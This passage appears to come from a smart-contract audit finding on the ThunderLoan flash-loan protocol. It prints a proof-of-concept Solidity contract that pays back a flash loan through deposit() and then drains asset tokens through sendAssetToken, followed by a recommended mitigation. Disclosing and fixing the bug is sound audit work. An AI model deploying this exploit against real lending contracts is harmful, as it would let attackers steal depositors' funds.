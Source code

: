```javascript
        s_balanceDuringFlashLoan = 0;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata /*  params */
    )
        external
        returns (bool)
    {
        s_balanceDuringFlashLoan = IERC20(token).balanceOf(address(this));
        
        if (initiator != s_owner) {
            revert MockFlashLoanReceiver__onlyOwner();
        }
        
        if (msg.sender != s_thunderLoan) {
            revert MockFlashLoanReceiver__onlyThunderLoan();
        }
        IERC20(token).approve(s_thunderLoan, amount + fee);
        IThunderLoan(s_thunderLoan).deposit(IERC20(token), amount + fee);
        s_balanceAfterFlashLoan = IERC20(token).balanceOf(address(this));
        return true;
    }

    function getbalanceDuring() external view returns (uint256) {
        return s_balanceDuringFlashLoan;
    }

    function getBalanceAfter() external view returns (uint256) {
        return s_balanceAfterFlashLoan;
    }

    function sendAssetToken(address assetToken) public {
        
        IERC20(assetToken).transfer(msg.sender, IERC20(assetToken).balanceOf(address(this)));
    }
}
```

Notice that the `assertLt()` checks whether the balance of the AssetToken contract is less than the `DEPOSIT_AMOUNT` , which represents the initial balance. The contract balance should never decrease after a flash loan, it should always be higher.

**Recommended Mitigation:** Add a check in `deposit()` to make it impossible to use it in the same block of the flash loan. For example registring the block.number in a variable in `flashloan()` and checking it in `deposit()`.

---
---
